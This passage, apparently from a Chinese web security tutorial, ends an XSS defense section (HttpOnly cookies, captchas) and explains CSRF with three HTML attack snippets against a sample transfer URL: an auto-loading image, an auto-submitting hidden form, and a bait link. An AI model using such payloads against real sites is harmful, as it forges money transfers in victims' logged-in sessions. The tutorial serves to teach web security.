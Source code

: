   XSS 攻击最终需要上传 Cookie，服务器可以通过 HTTP 响应头来为某些重要数据 Cookie 添加 HttpOnly 标志。使用 HttpOnly 标记的 Cookie 只能使用在 HTTP 请求过程中，恶意代码无法通过 JavaScript 的 document.cookie 方法读取。

+ **其他**

  通过验证码防止冒充用户提交的危险操作脚本执行；限制输入长度以增大 XSS 攻击的难度。

### 1.4 CSRF 攻击

#### 1.4.1 概念

CSRF 全称 **跨站请求伪造** (Cross-site request forgery)，黑客利用用户的登录态，并通过第三方站点发起跨站请求。和 XSS 不同，CSRF 攻击不需要注入恶意代码，仅利用服务器漏洞和用户登录状态实施攻击。

#### 1.4.2 攻击方式

假设已有一个转账接口：`https://csxiaoyao.com/sendcoin`，同时支持 GET / POST，参数为：目标用户 user 和金额 number。当用户打开黑客页后，黑客有三种方式实施 CSRF 攻击：

+ **自动发起 GET 请求**

  ```html
  <html>
    <body>
      <h1> 黑客的站点：CSRF 攻击演示 </h1>
      <img src="https://csxiaoyao.com/sendcoin?user=hacker&number=100">
    </body>
  </html>
  ```

  当该页面被加载时，浏览器会自动发起 img 的资源请求。

+ **自动发起 POST 请求**

  ```html
  <html>
  <body>
    <h1> 黑客的站点：CSRF 攻击演示 </h1>
    <form id='hacker-form' action="https://csxiaoyao.com/sendcoin" method=POST>
      <input type="hidden" name="user" value="hacker" />
      <input type="hidden" name="number" value="100" />
    </form>
    <script> document.getElementById('hacker-form').submit(); </script>
  </body>
  </html>
  ```

  当用户打开该站点后，表单会被自动执行提交。

+ **引诱用户点击链接**

  ```Html
  <div>
    <a href="https://csxiaoyao.com/sendcoin?user=hacker&number=100" taget="_blank">
      点击下载美女照片
    </a>
  </div>
  ```

